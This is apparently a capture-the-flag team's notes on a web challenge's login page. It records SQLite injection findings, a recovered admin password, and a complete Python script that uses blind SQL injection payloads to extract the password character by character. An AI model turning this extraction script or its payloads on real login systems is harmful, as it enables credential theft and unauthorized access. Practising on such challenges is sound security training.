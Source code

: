 ## Yet another login page
> **Category:** Web
> **Description:** http://chall.ctf.bamboofox.tw:9527
> **Pad Link:** http://34.87.94.220/pad/web-yet-another-login-page
> **Flag:**
---

## References
**RCE Resources  (TODO):**
* https://github.com/unicornsasfuel/sqlite_sqli_cheat_sheet
* https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#remote-command-execution-using-sqlite-command---attach-database

## Bugs


## Exploit Ideas

Time to GTF
- Login.exe in title of page


### Note: SQLite 3.27.2 

SQLi (Union Based)

Only `users` table in db
~~~
CREATE TABLE "users" (
    "username"  TEXT NOT NULL,
    "password"  TEXT NOT NULL
)
~~~

Credentials: `admin:w1MEoJZVmhu2u7GWN6V4SJRTUrLQxDJK9MBCWezdtOo`

However, "nothing happens" upon login:
```
HTTP/1.1 200 OK
Server: nginx/1.17.10
Date: Sat, 16 Jan 2021 06:28:27 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 43
Connection: close

Hello admin ｡:.ﾟヽ(*´∀`)ﾉﾟ.:｡
```

## Scripts

(Actually not needed) Blind SQL script:
```py
import requests
import sys
from multiprocessing import Pool

MAX_GUESS_LENGTH = 256
POOL_WORKERS = 12

output = []
pool = None

def get_result():
    global output
    result = None

    if len(output) > 0:
        result = "".join(output)
        output = []

    sys.stdout.write("\n")
    return str(result)

def log_result(result):
    global output

    if result:
        pool.terminate()

        if result in range(32, 127):
            char = chr(result)
            output.append(char)
            sys.stdout.write(char)
            sys.stdout.flush()

def multi_request(inj, c):
    url = 'http://chall.ctf.bamboofox.tw:9527/login'

    # Set guess character
    data = {
        "username": inj.replace("[CHAR]", str(chr(c))),
        "password": ""
    }

    # Send payload
    res = requests.post(url, data=data)

    if "Wrong password" in res.text:
        return c
    return False

def inject(inj):
    global pool
    pool = Pool(POOL_WORKERS)

    for c in range(32,127):
        pool.apply_async(multi_request, [inj, c], callback=log_result)
    pool.close()
    pool.join()

def inject_len(query):
    global pool
    pool = Pool(POOL_WORKERS)

    for i in range(1, MAX_GUESS_LENGTH + 1):
        inj = "' OR LENGTH(({}))={};-- -".format(query, i)
        pool.apply_async(multi_request, [inj, i], callback=log_result)
    pool.close()
    pool.join()
    return ord(get_result())

def sqli_query(query, length):
    for i in range(1, int(length) + 1):
        inj = "' OR SUBSTR(({}),{},1)='[CHAR]';-- -".format(query, i)
        orig_output = len(output)
        inject(inj)
        updated_output = len(output)
        if orig_output == updated_output:
            break
    return get_result()

def enum():
    query = "SELECT password FROM users WHERE username = 'admin'"
    password_len = inject_len(query)
    print "[+] Length of password: {}".format(password_len)
    password = sqli_query(query, password_len)
    print "[+] Password: {}".format(password)

def main():
    enum()

if __name__ == "__main__":
    main()
```